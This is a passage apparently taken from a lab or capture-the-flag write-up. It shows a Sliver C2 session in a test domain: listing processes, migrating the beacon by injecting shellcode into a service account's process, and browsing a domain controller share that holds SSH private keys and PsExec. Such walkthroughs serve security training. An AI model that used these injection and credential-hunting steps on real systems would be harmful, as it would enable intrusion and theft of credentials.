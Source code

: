 ```bash
# Enumerate Process
sliver (puppet-mtls) > ps                                                                                                              
                                                                                                                                       
 Pid    Ppid   Owner                          Arch     Executable                    Session                                           
====== ====== ============================== ======== ============================= =========
 444    784    PUPPET\Bruce.Smith             x86_64   StartMenuExperienceHost.exe   1                                                 
 2880   784    PUPPET\Bruce.Smith             x86_64   RuntimeBroker.exe             1                                                 
 3624   784    PUPPET\Bruce.Smith             x86_64   SearchApp.exe                 1                                                 
 4092   784    PUPPET\Bruce.Smith             x86_64   RuntimeBroker.exe             1                                                 
 1868   784    PUPPET\Bruce.Smith             x86_64   RuntimeBroker.exe             1                                                 
 2300   660    PUPPET\svc_puppet_win_t1       x86_64   ruby.exe                      0                                                 
 3980   660    PUPPET\Bruce.Smith             x86_64   svchost.exe                   1                                                 
 3636   784    PUPPET\Bruce.Smith             x86_64   ShellExperienceHost.exe       1                                                 
 3652   784    PUPPET\Bruce.Smith             x86_64   RuntimeBroker.exe             1                                                 
 2496   2736   PUPPET\Bruce.Smith             x86_64   puppet-update.exe             1                                                 
 4736   2496   PUPPET\Bruce.Smith             x86_64   conhost.exe                   1                                                 
 2892   2496   FILE01\redpuppet               x86_64   puppet-update.exe             1                                                 
 4248   4624   NT AUTHORITY\SYSTEM            x86_64   puppet-update.exe             0                                                 
 4688   660                                   x86_64   svchost.exe                   0
```

Inject shellcode into PID 2300.
```bash
sliver (puppet-mtls) > migrate -p 2300

[*] Successfully migrated to 2300

[*] Beacon bd19805b puppet-mtls - 10.10.144.118:59697 (File01) - windows/amd64 - Thu, 22 May 2025 03:44:48 EDT
```

Enumerated available shares using sa-netshares, and found an it share.
```Bash
sliver (puppet-mtls) > ls \\\\dc01.puppet.vl\\it

\\dc01.puppet.vl\it\ (3 items, 813.9 KiB)
=========================================
drwxrwxrwx  .ssh          <dir>      Sat Oct 12 01:39:50 -0700 2024
drwxrwxrwx  firewalls     <dir>      Sat Oct 12 01:15:05 -0700 2024
-rw-rw-rw-  PsExec64.exe  813.9 KiB  Sat Oct 12 01:07:00 -0700 2024


\\dc01.puppet.vl\it\.ssh (2 items, 580 B)
=========================================
-rw-rw-rw-  ed25519      472 B  Sat Oct 12 01:14:23 -0700 2024
-rw-rw-rw-  ed25519.pub  108 B  Sat Oct 12 01:40:09 -0700 2024
```
